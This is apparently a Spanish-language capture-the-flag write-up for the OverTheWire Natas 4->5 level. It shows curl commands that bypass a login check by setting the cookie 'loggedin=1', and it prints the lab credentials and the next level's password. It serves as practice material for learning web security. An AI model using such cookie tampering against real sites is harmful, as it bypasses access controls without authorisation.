 ```yaml
---
title: OverTheWire - Natas 4 -> 5 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 4 -> 5 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas5
Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
URL:      http://natas5.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas4->5-1.png)

Nos indica que solo los usuarios que tengan sesión iniciada pueden ver la contraseña.

![](/images/images-otw-natas/natas4->5-2.png)

Si agregamos el parámetro `-v` a curl, podremos ver más información sobre las peticiones.

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Vemos que existe una cookie llamada **loggedin** y tiene de valor el número 0.

![](/images/images-otw-natas/natas4->5-3.png)

Para agregar una cookie con el comando curl usamos el parámetro `--cookie`. En este caso agregaremos `--cookie 'loggedin=1'`.

```bash
curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie 'loggedin=1'
```

![](/images/images-otw-natas/natas4->5-4.png)



# Contraseña
---

`aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

---

## [Anterior](/level-3-4)
## [Siguiente](/level-5-6)